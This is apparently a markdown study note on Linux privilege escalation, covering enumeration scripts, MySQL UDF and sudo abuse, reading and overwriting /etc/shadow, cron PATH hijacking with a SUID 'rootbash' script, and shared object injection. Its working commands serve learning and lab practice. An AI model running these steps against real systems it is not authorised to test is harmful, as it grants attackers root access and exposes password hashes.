




# Spawinig root shell
- 'rootbash' SUID
- Custom Executable (like C code)
- msfvenom 
- Native Revers Shells

# Privelge escalation tools
## linux smart enumeration

```bash
./lse.sh # for normale use
# if none of the first command usefull u can go deeper with
./lse.sh -l 1 -i
./lse.sh -l 2 -i # this will print everything the script gathers
```

## LinEnum

```bash
./LinEnum.sh -k password -e exportsFolder -t # -k for keywords, -e where u want interesting files to be exported, -t to include thorough tests
```

# Kernel exploits

# Service Exploits

```bash
ps aux | grep "^root" # to get services runing as root
<program> --version/v # can show the version of the program
dpkg -l | grep <program> # show installed program and their version
rpm -qa | grep <program> # in redhat 
```

from `lse.sh` we can see 

```bash
[!] sof010 Can we connect to MySQL as root without password?............... yes!
...
12:04     2129     root /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
```

running `mysqld --version` can show us that the versio is `5.1.73-1` which vulnerble to `User-Defined Function (UDF) Dynamic Library`

after compiling and runing the exploit 


## Port Forwarding

```bash
ssh -R <local-port>:127.0.0.1:<service-port> <username>@<local-machine>
# example
ssh -R 4444:127.0.0.1:3306 root@192.168.1.26
# in ur kali machine
mysql -u root -h 127.0.0.1 -P 4444
```

# Weak File Permissions
## `/etc/shadow` file
from `lse.sh` we can see the `/etc/shadow` file is readable and writeble, we can confirm that with :


```bash
# u can read the /etc/shadow and break the hash with john
cat /etc/shadow
# if we can write to the /etc/shadow file that mean we can generate hash from password and replace the root password
mkpasswd -m sha-512 newpasswordhere
```

## `/etc/passwd` file

- for backwards compatibility, if the second field of a user row in `/etc/passwd` contains hash, it takes precedent over `/etc/shadow`

# Sudo

```bash
sudo <program> # run program as sudo
sudo -u <program> # 
sudo -l
sudo su
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

## Shell Escape Sequences

runing `sudo -l` show us that we can run some command as root, searching in [GTFOBins](https://gtfobins.github.io/) we can locate these commands for root usage

## Abusing Intended Functionality

from `sudo -l` we can run apache2 as root but there is no esacape sequence presented in [GTFOBins](https://gtfobins.github.io/), alternatvly apache2 throw error in file cant understandn we can use that to read the 1st line in `/etc/shadow`

## Environment Variables

- `env_reset`
- `env_keep`
- `env_keep+=LD_PRELOAD`
- `env_keep+=LD_LIBRARY_PATH`
    - the `ldd` command can be user to print the shared libraries used by program

# Cron Jobs

user crontabs are usually located in `/var/spool/cron/` or `/var/spool/cron/crontabs`
The system-wide crontab is located at `/etc/crontab`

## File Permissions
if we can write to program or script which gets run as cronjob, we can replace it

## PATH Environment Variable

from `lse.sh` we can locate some writable paths in cron jobs
if we can controle the Path we can see if there is creonjobs that not use the full path and try to create script with the same name in the path we controle

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
Make sure that the file is executable:
```bash
chmod +x /home/user/overwrite.sh
watch -n 1 ls -l /tmp
/tmp/rootbash -p
```


## Wildcards

this example can explain the concept : 
```bash
ls *
touch ./-l
ls *
```



from [GTFOBins](https://gtfobins.github.io/)  we can check if we can spone shell from the command or not

# SUID SGIDExecutables
## Finding SUID / SGID Files
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

after locating some programs we can use shell Escape Sequences or search for know exploits

## Shared Object Injection
by using a program called `strace` we can track shared object called, and see if there is missing ones, then we can change it with our Object

```bash
strace /path/to/program 2>&1 | grep -iE "open|access|no such file"
```


## PATH Environment Variable
### Finding Vulnerable Programs

we can use `strings` to see if the program try to locate another program
we can use `strace` here too or `ltrace`

```bash
strings /path/to/file
strace -v -f -e execve <command> 2>&1 | grep exec
ltrace <command>
```

# Privilege Escalation Strategy

1. Check your user (id, whoami)
2. Run `lse.sh` and increas levels
3. run linEnum and linPeas too
4. Try Manual enumeration if the scripts fail